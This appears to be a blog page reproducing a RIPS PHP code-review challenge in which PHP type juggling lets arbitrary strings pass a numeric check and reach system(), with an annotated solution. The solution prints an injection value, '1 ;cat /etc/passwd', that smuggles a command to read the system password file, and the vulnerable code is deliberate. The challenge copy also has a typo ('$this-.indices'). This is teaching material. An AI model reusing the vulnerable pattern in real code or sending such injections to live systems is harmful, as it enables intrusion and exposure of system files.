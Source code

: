 ```yaml
---

title: rips-51
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1131863413561315328" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
declare(strict_types=1);

class ParamExractor {
    private $validIndices = [];

    public function indices($input) {
        $validate = function (int $value, $key) {
            if($value > 0) {
                $this->validIndices[] = $key;
            }
        };

        try {
            array_walk($input, $validate, 0);
        } catch (TypeError $error) {
            echo "Only numbers are allowed as input";
        }

        return $this->validIndices;
    }

    public function getCommand($parameters) {
        $indices = $this-.indices($parameters);
        $params = [];
        foreach ($indices as $index) {
            $params[] = $parameters[$index];
        }
        return implode($params, ' ');
    }
}

$cmd = (new ParamExractor())->getCommand($_GET['p']);
system('resizeImg image.png ' . $cmd);

{{< /code >}}

# Solution
{{< code language="php" highlight="" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
declare(strict_types=1);

class ParamExractor {
    private $validIndices = [];

    public function indices($input) {
        $validate = function (int $value, $key) {            // 3) $value and $key is user input
            if($value > 0) {                                 //    the type check is vulnerable against php type juggling
                $this->validIndices[] = $key;                //    in php version < 8.0
            }
        };

        try {
            array_walk($input, $validate, 0);                // 2) $input is user input
        } catch (TypeError $error) {
            echo "Only numbers are allowed as input";
        }

        return $this->validIndices;
    }

    public function getCommand($parameters) {
        $indices = $this->indices($parameters);
        $params = [];
        foreach ($indices as $index) {
            $params[] = $parameters[$index];
        }
        return implode($params, ' ');                        // 4) the $params array can have arbitrary strings because of
    }                                                        //    the type juggling problem above
}

$cmd = (new ParamExractor())->getCommand($_GET['p']);        // 1) argument to getCommand is user input
system('resizeImg image.png ' . $cmd);                       // 5) os command injection here




# example:

var_dump((new ParamExractor())->getCommand(array(1, 2, "1 ;cat /etc/passwd")));
#PHP Notice:  A non well formed numeric value encountered in php shell code on line 7
#string(22) "1 2 1 ;cat /etc/passwd"


{{< /code >}}